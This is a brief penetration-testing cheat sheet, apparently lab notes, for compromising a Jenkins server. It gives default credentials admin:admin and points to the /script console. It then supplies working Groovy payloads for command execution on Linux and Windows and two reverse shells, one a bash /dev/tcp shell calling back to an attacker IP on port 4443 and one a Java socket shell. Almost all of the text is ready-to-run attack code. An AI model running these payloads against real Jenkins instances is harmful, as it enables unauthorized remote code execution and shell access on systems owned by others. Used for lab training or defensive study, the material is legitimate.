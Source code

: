 
### Enumeration

- Default creds `admin:admin`
- Version number can be found in the bottom right of the page

### Attack

Navigate to the following pate `http://jenkins.inlanefreight.local:8000/script`

Use the following Groovy script:

#### Linux:

Command Execution:

```bash
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Reverse shell

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<Your_IP>/4443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### Windows:

Command Execution:

```bash
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

Reverse Shell:

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

